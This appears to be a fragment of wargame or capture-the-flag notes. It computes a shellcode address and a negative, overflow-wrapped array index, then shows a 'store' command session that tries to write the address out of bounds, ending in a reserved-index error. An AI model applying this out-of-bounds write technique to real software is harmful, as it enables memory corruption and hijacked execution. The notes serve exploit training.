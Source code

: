Address of a shellcode
0xffffd880
4294957184

Complement's 2
-404
18446744073709551212
18446744073709551212 / 4 = 4611686018427387803

4611686018427387803

4+6+1+1+6+8+6+0+1+8+4+2+7+3+8+7+8+0+3 =  83
8 + 3 = 11
1 + 1 = 2

```
Input command: store
 Number: 4294957184
 Index: -4611686018427387803
 *** ERROR! ***
   This index is reserved for wil!
 *** ERROR! ***
 ```
